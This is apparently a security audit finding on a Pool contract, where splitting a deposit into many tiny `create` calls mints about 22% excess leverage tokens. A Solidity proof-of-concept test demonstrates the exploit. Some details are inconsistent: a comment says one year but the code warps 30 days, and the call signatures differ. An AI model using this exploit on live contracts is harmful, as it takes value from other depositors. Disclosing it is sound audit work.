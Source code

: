 Jovial Turquoise Scallop

High

# Users can mint more `LeverageToken` by splitting a single large deposit into multiple smaller deposits.

### Summary

The `create` function in the `Pool` contract exhibits a vulnerability where users can exploit the relationship between fee accumulation over time (`lastFeeClaimTime`) and the slippage behavior to mint more `LeverageToken` tokens by splitting a single large deposit into multiple smaller deposits. This issue arises specifically due to the fee and `getCreateAmount` calculation mechanism..

### Root Cause

The reserve token pool balance used in `getCreateAmount` is reduced by accrued fees (`poolReserves - (fee * elapsed_time)`), which introduces a dependency on `lastFeeClaimTime`. [Pool.sol#L273](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L273)
Splitting a large deposit into smaller chunks allows users to manipulate the slippage calculations repeatedly. Each deposit uses a reduced reserve pool value, causing disproportionately higher token minting over multiple iterations than a single large deposit.

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Users can mint more `LeverageToken` by splitting a single large deposit into multiple smaller deposits.


### PoC

The PoC demonstrates how splitting a deposit into smaller transactions yields excess `LeverageToken`:

```solidity
function testCodeCreate() public {
    vm.startPrank(governance);

    // Create a pool with 2% fee
    params.fee = 20000; // 2% fee (1000000 precision)

    // Mint and approve reserve tokens
    Token rToken = Token(params.reserveToken);
    rToken.mint(governance, 1000 ether);
    rToken.approve(address(poolFactory), 1000 ether);

    Pool pool = Pool(poolFactory.createPool(params, 1000 ether, 30000 ether, 10000 ether, "", "", "", "", false));

    rToken.approve(address(pool), 1000 ether);

    // Fast forward one year
    vm.warp(block.timestamp + 30 days);

    vm.stopPrank();
    vm.startPrank(user);
    rToken.mint(user, 100 ether);
    rToken.approve(address(pool), 100 ether);

    // Call create and assert minted tokens
    uint256 amount = 0;

    //amount = pool.create(Pool.TokenType.LEVERAGE, 100 ether, 0);
    //assertEq(amount, 5008232783461092516933);

    for(uint256 i = 0; i < 100000; i ++)
      amount += pool.create(Pool.TokenType.LEVERAGE, 0.001 ether, 0);
    
    assertEq(amount, 6117727377580069295390);
    
    // Reset reserve state
    rToken.burn(governance, rToken.balanceOf(governance));
    rToken.burn(address(pool), rToken.balanceOf(address(pool)));
  }
```

Testing the same logic for a single deposit (`100 ether`) produces fewer tokens:

```solidity
uint256 amount = pool.create(Pool.TokenType.LEVERAGE, 100 ether, 0, block.timestamp, address(0));
```

#### Results:
- Tokens minted from single deposit: `5008232783461092516933`.
- Tokens minted from 100,000 small deposits: `6117727377580069295390` .
- Excess tokens minted: `1,109,494,594,118,976,778,457` = `22% of 5008232783461092516933`.

### Mitigation

Set a minimum deposit amount to prevent manipulation of small deposits.